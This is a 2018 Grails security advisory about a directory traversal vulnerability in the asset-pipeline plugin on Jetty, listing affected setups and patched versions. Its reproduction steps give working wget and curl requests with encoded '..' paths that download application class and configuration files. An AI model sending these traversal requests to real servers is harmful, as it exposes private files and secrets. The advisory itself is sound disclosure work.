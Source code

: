 title: Security Vulnerability in Asset-Pipeline and Jetty
date: September 23, 2018  
description: Security vulnerability in asset-pipeline and Jetty
author: Iván López
image: 2018-09-23.jpg    
---

# [%title]

[%author]

[%date] 

Tags: #plugins

## Introduction

[Asset-pipeline](https://grails.org/plugin/asset-pipeline) has been the default plugin for handling static assets in a Grails<sup>&reg;</sup> web application since Grails 2.4.0\. A security vulnerability that involves asset-pipeline and Jetty has been identified.

## Affected Versions

The vulnerability affects all asset-pipeline users that deploy Grails applications in Jetty, and it allows directory traversal and download any file knowing its specific directory.

## Reproducing The Issue

*   Create a new grails application: `grails create-app foo`
*   In `build.gradle` change the `spring-boot-starter-tomcat` to `spring-boot-starter-jetty`
*   Build a war file: `grails war`
*   Deploy to Jetty
*   Send the following request to download Application.class `wget localhost:8080/foo-0.1/assets/..%5c%5cfoo%5cApplication.class -O Application.class`
*   It is also possible to download any any arbitrary file if the path is known. For example to download `application.yml`execute `curl -v localhost:8080/foo-0.1/assets/..%5capplication.yml`.

## Fixing The Issue

The vulnerability has been addressed in recent versions of the asset-pipeline plugin:

*   2.14.1.1 for Grails 2.x
*   2.15.1 for Grails 3 and Java 7
*   3.0.6 for Grails 3 and Java 8